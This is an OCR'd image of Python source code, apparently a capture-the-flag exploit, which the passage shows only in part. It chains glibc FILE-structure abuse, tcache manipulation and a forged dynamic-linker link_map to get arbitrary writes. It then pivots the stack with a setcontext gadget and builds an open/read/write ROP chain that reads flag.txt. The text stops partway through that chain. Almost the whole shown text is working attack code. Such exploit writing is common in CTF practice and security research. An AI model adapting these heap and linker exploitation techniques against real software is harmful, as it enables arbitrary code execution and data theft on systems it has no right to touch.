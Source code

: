 ```python
# _IO_switch_to_backup_area switches read with save
call_fn(libc.symbols["_IO_switch_to_backup_area"])
# make size of chunk tcache so memstream takes from it
write(symtab_dyn - 0x8, p64(0x200 | 1))
# trick io into thinking we aren't actually swapped
write(fake_io._flags(), p64(0))
# # _IO_free_backup_area will free _IO_save_base, but this time the ptr will end up in tcache
call_fn(libc.symbols["_IO_free_backup_area"])
# pull from tcache and write ptrs into mmap
call_fn(libc.symbols["__open_memstream"])
# move mmap ptr to mmap relative ptr
write(fake_linkmap.l_info(link_map.DT_SYMTAB), p8(0x90))
symtab = symtab_dyn + 0x110

# ----------- complete linkmap for _dl_fixup -----------
strtab = ptr_write(fake_linkmap.l_info(link_map.DT_STRTAB))
pltgot = ptr_write(fake_linkmap.l_info(link_map.DT_PLTGOT))
write(pltgot - 0x8, p64(0))
# jmprel dyn points to right above the got. move it to point to the got.
write(fake_linkmap.l_info(link_map.DT_JMPREL), p8(0xF8))
# now, d_ptr will be an mmaped chunk written to got
jmprel = ptr_write(ld.symbols["_GLOBAL_OFFSET_TABLE_"])
addr = ptr_write(fake_linkmap.l_addr())


def rel_write(where, what):
    write(jmprel + 0x8, elf64_rela.pack(where - addr + 0x10, 0x000000007, 0))
    write(symtab - 0x10, elf64_sym.pack(0, 0x12, 1, 0, what - addr + 0x10, 0))
    call_fn(ld.symbols["_dl_fixup"])


# ----------- stack pivot -----------
# using rdx gadget found at https://www.willsroot.io/2020/12/yet-another-house-asis-finals-2020-ctf.html
# 0x0000000000169e90 : mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rsp], rax ; call qword ptr [rdx + 0x20]
rbx_write_call = libc.address + 0x169E90
# set rbx to a ptr to our original mmap page
rel_write(_rtld_global._dl_load_lock() + 8, 0)
# write what to call, setcontext gadget, to rdx + 0x20
rel_write(0x20, libc.symbols["setcontext"] + 61)
# write where to pivot, original_mmap+0x100 to rbx + 0xa0
rel_write(0xA0, 0x100)
# rdx + a8 is pushed, so we need a ret gadget here
rel_write(0xA8, libc.symbols["setcontext"] + 334)

# ----------- rop chain -----------
rop = ROP(libc)
write(ld.symbols["_r_debug"], b"flag.txt\x00")
# open, read, write
rop.call(
    "syscall",
    [
        constants.linux.amd64.SYS_open,
        ld.symbols["_r_debug"],
        0,
    ],
)
rop.call(
    "syscall",
    [
        constants.linux.amd64.SYS_read,
        3,
```